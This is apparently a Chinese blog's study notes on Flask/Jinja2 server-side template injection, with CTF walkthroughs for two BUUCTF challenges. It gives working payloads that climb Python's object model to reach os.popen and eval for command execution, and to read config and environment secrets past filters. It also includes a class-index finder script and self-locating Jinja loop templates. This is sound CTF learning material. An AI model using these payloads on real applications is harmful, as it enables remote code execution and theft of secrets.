










SSTI 学习记录
python-Flask模板注入
两个SSTI资料
https://blog.csdn.net/qq_48904485/article/details/123653544
https://blog.csdn.net/huangyongkang666/article/details/123628875
Python-Flask使用Jinja2作为渲染引擎 ，在jinja2中，存在三种语法。
1 | 控制结构 {% %} |
jinja2模板中使用{{ }} 语法表示一个变量
flask SSTI的基本思路就是利用python中的魔术方法找到自己要用的函数
python常用魔术函数：
1 | __dict__ 保存类实例或对象实例的属性变量键值对字典 |
漏洞利用：
python沙盒逃逸
查看config全局变量的方法
1
2
3
4
5
6
7
8
9
10
11
12
13
14# 1.congfig
{{config}}可以获取当前设置，可以直接访问{{config['FLAG']}}或者{{config.FLAG}}得到flag
# 2.self
{{self.__dict__._TemplateReference__context.config}} ⇒ 同样可以找到config
# 3.""、[]、()等数据结构
主要目的是配合__class__.__mro__[2]这样找到object类
{{[].__class__.__base__.__subclasses__()[68].__init__.__globals__['os'].__dict__.environ['FLAG']}}
# 4.url_for, g, request, namespace, lipsum, range, session, dict, get_flashed_messages, cycler, joiner, config等
如果config，self不能使用，要获取配置信息，就必须从它的上部全局变量（访问配置current_app等）
{{url_for.__globals__['current_app'].config.FLAG}}
{{get_flashed_messages.__globals__['current_app'].config.FLAG}}命令执行
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59#获取''字符串的所属对象
''.__class__
<class 'str'>
#获取str类的父类
''.__class__.__mro__
(<class 'str'>, <class 'object'>)
#获取object类的所有子类
''.__class__.__mro__[1].__subclasses__()
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>...
#有很多类，后面省略
#现在只需要从这些类中寻找包含需要模块的类，用数组下标获取，然后就可以执行命令
#一是file模块中的read功能，用来读取各种文件，敏感信息等。
#二是warnings.catch_warnings(需自己导入os模块)、socket._socketobject(需自己导入os模块)、site._Printer、site.Quitter等模块的内置os，通过os模块我们可以做到system执行命令（system执行成功返回0，不会在页面显示。）、popen管道读取文件、listdir列目录等操作。
#三是get_flashed_messages() 获取闪现信息
#如第x个编号含有os模块，直接执行的方法：
''.__class__.__mro__[1].__subclasses__()[x].__init__.__globals__['os'].system('ls')
#如果第x个编号需要自己导入os模块：
{{''.__class__.__bases__[0].__subclasses__()[166].__init__.__globals__.__builtins__['eval']("__import__('os').popen('ls ../').read()")}}
#脚本1（python）：在众多类中寻找想要的类（如warnings.catch_warnings(需自己导入os模块)、socket._socketobject(需自己导入os模块)、site._Printer、site.Quitter）
def find():
list = "<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>"
list = list.replace('\'','')
list = list.replace('<','')
list = list.replace('>','')
list = list.replace('class ','')
list = list.replace('enum ','')
list = list.replace('type ','')
list = list.replace(' ','')
list = list.split(',')
print(list)
className = 'warnings.catch_warnings' #需要查找的模块名称
num = list.index(className)
print(num) #返回索引
if __name__ == '__main__':
find()
#脚本2：利用os执行命令: 利用for循环找到，os._wrap_close类
{%for i in ''.__class__.__base__.__subclasses__()%}
{%if i.__name__ =='_wrap_close'%}
{%print i.__init__.__globals__['popen']('cat flag').read()%}
{%endif%}
{%endfor%}
#脚本3：利用builtins执行命令自行导入os: 利用for循环找到，os.catch_warnings类
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{% for b in c.__init__.__globals__.values() %}
{% if b.__class__ == {}.__class__ %}
{% if 'eval' in b.keys() %}
{{ b['eval']('__import__("os").popen("whoami").read()') }}
{% endif %}
{% endif %}
{% endfor %}
{% endif %}
{% endfor %}
例题
BUUCTF: shrine
进入题目，直接看到网页源码如下。由
1 | return flask.render_template_string(safe_jinja(shrine)) |
可知该题为模板注入
确认是否存在模板注入：在路径后添加’’’49‘’’，结果为49，确认注入
由源码可知，该题过滤了’(‘，’)’，设置黑名单’config’,’self’。所以要查看config中的flag可以使用python沙盒逃逸中的方法四。
1 | {{url_for.__globals__['current_app'].config.FLAG}} |
因为函数url_for和get_flashed_messages包含了current_app全局变量，而current_app代表了当前项目的app，我们要找的就是当前app下的config，所以需要引用current_app.config来获得flag，如下图
  BUUCTF: [Flask]SSTI 1
进入题目尝试传参name，看是否存在模板注入
模板注入存在。下一步传参’’.class.bases[0].subclasses()，查找需要的模块。搜索发现存在模块warnings.catch_warnings
使用脚本1.查看该模块的下标，为166
进一步发现eval函数
构造payload
1 | {{''.__class__.__bases__[0].__subclasses__()[166].__init__.__globals__.__builtins__['eval']("__import__('os').popen('xxx').read()")}} |
经过查找发现flag在env项目环境中
此外，也可以直接使用脚本3，省略很多步骤
All articles in this blog are licensed under CC BY-NC-SA 4.0 unless stating additionally.